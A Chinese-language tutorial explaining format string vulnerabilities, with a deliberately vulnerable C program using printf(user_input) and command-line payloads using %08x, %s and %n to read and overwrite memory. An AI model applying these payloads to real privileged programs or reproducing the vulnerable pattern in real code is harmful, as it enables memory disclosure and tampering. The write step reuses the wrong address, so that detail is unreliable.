 ## 什么是格式化字符串漏洞
   格式化字符串exploit是一类相对侥幸的exploit。同缓冲区溢出exploit一样，格式化字符串exploit 的最终目的是重写数据以控制特权程序的执行流程。
 
   格式化字符串漏洞是由像 printf(user_input) 这样的代码引起的，其中 user_input 是用户输入的数据，具有 Set-UID root 权限的这类程序在运行的时候，printf 语句将会变得非常危险，因为它可能会导致下面的结果：
* 使得程序崩溃
* 任意一块内存读取数据
* 修改任意一块内存里的数据

    printf 函数的格式化参数：

|参数|输出类型|
|----------|-------------------------------------------------|
|%d|十进制整数|
|%u|无符号整数|
|%x|十六进制整数|
|%s|字符串|
|%n|到目前为止，已写的字节个数|

## printf 函数参数在栈中的分布
以下面的代码为例：
```
printf("A is %d and is at %08x, B is %u and is at %08x.\n", A, &A, B, &B);
```
该printf函数参数再栈中的分布如下：

![](NetworkSecurity/raw/master/index_resourses/printf_overflow_exploit/printf_buffer_exploit_01.png)

栈顶指针指向的是格式化字符串的内容，printf函数遍历该字符串，如果当前字符不是格式化参数的首字符（%），则复制输出该字符，如果遇到一个格式化参数，就采取相应的动作，并使用栈中与那个参数相对应的参量。

本文的测试代码如下：
```
#include<stdio.h>
#include<stdlib.h>
#include<string.h>
int main(int argc, char*argv[])
{
    char text[1024];
     int test_val = -72;
    if (argc < 2)
    {
        printf("Usage: %s <text to print>\n", argv[0]);
        exit(0);
    }
    char *s=getenv("PATH");
    printf("the address of PATH is %08x, and the address of s is %08x\n", s, &s);
    strcpy(text, argv[1]);
    printf("text is located on %08x\n", text);
    printf("the write way:\n");
    printf("%s\n", text);
    printf("the wrong way:\n");
    printf(text);
    printf("\n");
    printf("[*] test_val @ 0x%08x = %d 0x%08x\n", &test_val, test_val, test_val);
    exit(0);
}
```
## 访问任意内存的位置
输入下面的字符串作为参数
```
AAAA%08x.%08x.%08x.%08x......%08x%08x //64个%08x
```
结果如下：
image2
当使用printf("%s", s) 输出该字符串得到正确结果。此时printf函数参数在栈中的分布如下（栈地址无实际意义，只是为了便于分析）：
image3
当使用printf(s)输出该字符串时，栈顶的指针直接指向字符串参数，并以解析格式化字符串参数的方式解析该字符串
image4
所以实际内存分布为：
image5
由上图可知从栈顶只要通过%08x向下跳8次就可以读到我们输入的字符串

已知PATH的内容存放在0xbfffff38，现在通过printf漏洞读取它的值，执行如下命令：
```
./fmt_vuln `printf "\x38\xff\xff\xbf"`%08x.%08x.%08x.%08x.%08x.%08x.%08x.%s
```
结果如下：
image6

## 改写任意内存的位置
已知变量test_val的位置：0xbfffef0c，通过printf 改写它的位置，执行如下命令：
```
./fmt_vuln `printf "\x38\xff\xff\xbf"`%08x.%08x.%08x.%08x.%08x.%08x.%08x.%n
```
结果如下：
image7
test_val的值由-72改为67，正是到目前为止所已写的字符数量。
